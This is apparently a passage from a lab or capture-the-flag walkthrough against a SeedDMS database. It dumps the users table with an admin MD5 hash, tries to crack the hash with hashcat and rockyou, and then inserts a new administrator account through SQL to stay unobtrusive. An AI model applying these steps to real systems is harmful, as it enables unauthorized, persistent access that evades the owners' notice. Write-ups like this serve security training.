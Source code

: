 ```
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
|  2 | guest | NULL                             | Guest User    | NULL               |          |       |         |    2 |      0 | NULL                |             0 |        0 |     0 |       NULL |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
```
The tblUsers table has the admin account and a hashed password. The hashed password looks like a straight forward MD5 (which we confirm by a simple google of the application and password reset for admin user). Running the password through hashcat and the rockyou wordlist comes up empty but we do have database admin permissions….

We want to try and be as unobtrusive as possible so instead of modifying the admin pwd hash, we try to just manually create our own admin account.

Using the `md5sum` command we can generate our own password hash:
```
echo -n thoseguys | md5sum
fa91c48020573febfb512d1d5957877d
```
And then use that info to create our own admin account:
```
INSERT INTO tblUsers (login, pwd, fullName, email, language, theme, comment, role, hidden, pwdExpiration, loginfailures, disabled, quota, homefolder) VALUES ("thoseguys", "fa91c48020573febfb512d1d5957877d", "thoseguys", "thoseguys@1337.h4x", "en_GB","","", 1, 0, "2021-07-13 00:12:25", 0, 0, 0, NULL);

Query OK, 1 row affected (0.005 sec)
```
```
MySQL [seeddms]> select * from tblUsers;
+----+-----------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| id | login     | pwd                              | fullName      | email              | language | theme | comment | role | hidden | pwdExpiration       | loginfailures | disabled | quota | homefolder |
+----+-----------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
|  1 | admin     | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
|  2 | guest     | NULL                             | Guest User    | NULL               |          |       |         |    2 |      0 | NULL                |             0 |        0 |     0 |       NULL |
|  5 | thoseguys | fa91c48020573febfb512d1d5957877d | thoseguys     | thoseguys@1337.h4x | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
+----+-----------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
3 rows in set (0.001 sec)
```
